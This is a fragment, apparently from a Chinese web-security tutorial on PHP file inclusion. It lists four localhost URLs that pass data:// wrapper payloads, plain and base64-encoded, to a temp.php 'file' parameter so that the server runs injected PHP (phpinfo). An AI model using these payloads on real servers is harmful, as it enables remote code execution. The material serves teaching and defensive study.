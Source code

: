http://localhost/temp.php?file=data://text/plain,<?php phpinfo()?>

http://localhost/temp.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

http://localhost/temp.php?file=data:text/plain,<?php phpinfo()?>

http://localhost/temp.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

![](../pic/21.png)

### 0x05 总结

![](../pic/22.png)